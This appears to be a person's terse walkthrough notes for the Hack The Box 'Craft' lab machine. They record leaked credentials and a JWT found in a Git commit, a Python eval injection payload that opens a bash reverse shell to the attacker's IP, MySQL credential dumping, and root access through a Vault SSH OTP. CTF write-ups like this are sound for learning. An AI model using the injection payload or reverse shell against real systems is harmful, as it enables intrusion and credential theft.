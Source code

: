 modify /etc/hosts to
	10.10.10.110    craft.htb gogs.craft.htb api.craft.htb

[ gogs.craft.htb ]
	Docs: https://gogs.io/docs
	Source code for API: https://gogs.craft.htb/Craft/craft-api

	Found creds in https://gogs.craft.htb/Craft/craft-api/compare/4fd8dbf8422cbf28f8ec96af54f16891dfdd7b95...10e3ba4f0a09c778d7cec673f28d410b73455a86:

		dinesh
		4aUh0A8PbVJxgd

	token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTc1NjQwODMwfQ.3lBUcjHIhC2klQt11QHJkBF7V73LT30768fuJFVIMfA

	Eval is used and we can exploit it by sending the following:
	{"name":"test""brewer":"test", "style": "test", "abv":"__import__('os').system('bash -i >& /dev/tcp/10.10.15.244/7070 0>&1")"}" Which will open a reverse shell on 7070

	Just use the creds to login into gogs and retrieve ssh key



[ api.craft.htb ]
	Flask python app using MySQL

Found sql creds for craft in settings.py

Got creds for all users except admin with pymysql


ROOT

	Root login is enabled

	Check new gogs for backend with the new user
	Find vault 
	Read a little about it and do vault write ssh/creds/root_otp ip=10.10.10.110
	Retreieve the otp and connect with it on SSH
